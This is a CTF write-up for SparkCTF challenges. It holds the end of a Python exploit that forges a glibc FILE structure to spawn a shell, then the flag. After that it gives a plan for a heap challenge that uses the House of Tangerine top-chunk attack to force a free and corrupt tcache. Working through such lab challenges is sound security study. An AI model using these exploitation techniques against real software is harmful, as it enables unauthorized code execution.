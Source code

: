 ```python
f=FileStructure(null=libc.address+0x2047a0)
stdout=libc.symbols["_IO_2_1_stdout_"]
l=0xe0
f.vtable=libc.symbols["_IO_wfile_jumps"]+0x18-0x38
f._wide_data=heap+0x390-0xe0
f.flags= u64(b"\x04\x04;sh".ljust(8,b"\x00")) #u64(b"\x04;sh\x00".ljust(8,b"\x00")) #0x68733bfbad4087 #u64(b"\x02;sh\x00".ljust(8,b"\x00"))  0x68733bfbad2887
f.fileno=1
f.chain=libc.symbols["_IO_2_1_stdin_"]
f._IO_read_ptr=stdout+0x83
f._IO_read_end =stdout+0x83
f._IO_read_base=0 #stdout+0x83
f._IO_write_base=stdout+0x83
f._IO_write_ptr=stdout+0x83
f._IO_write_end=0 #stdout+0x83
f._IO_buf_base=stdout+0x83
f._IO_buf_end=stdout+0x83+1
print(len(bytes(f)))


alloc(0x13,0xe8,bytes(f)) # stodut



p.interactive()

## SparkCTF{3b09b183c6218152a3f2e2fba0d8f570f271df71926fff48f17d90eb4b7fa529}
```

# tajin

another heap challenge with the following menu :

- allocate of whatever size
- edit with fix read size 0x1000 : Heap overflow
- show : prints contents of chunk

notes :

- no free function despite being a heap challenge xD
- very decent overflow which should make life easier

Plan :

- its obvious by now that we need to trigger free and somehow end up corrupting tcache
- our target in the heap that we can overwrite (other than the chunks themselves which are useless) is the `top chunk` that indicates how much of the heap is still left .
- we can look up some attacks on this top chunk , one attack that looks like just what we need is [house of tangerine](https://github.com/shellphish/how2heap/blob/master/glibc_2.39/house_of_tangerine.c)

  - what this attack does is basically change the size of the wilderness (how much is left in the heap , supposedely) , into something small like 0x500 or something similar , but it needs to still be page aligned when you sum it with it's address .
  - lets suppose we changed it to 0x500 , when we request to allocate something bigger , like 0x600 , malloc will think it ran out of memory , it s_brk another heap (dont matter for this attack) , and the 0x500 chunk that malloc thinks is left , instead of wasting (which can lead to fragmentation) , it frees it .
  - just like that we trigger free or controllable sizes of chunks
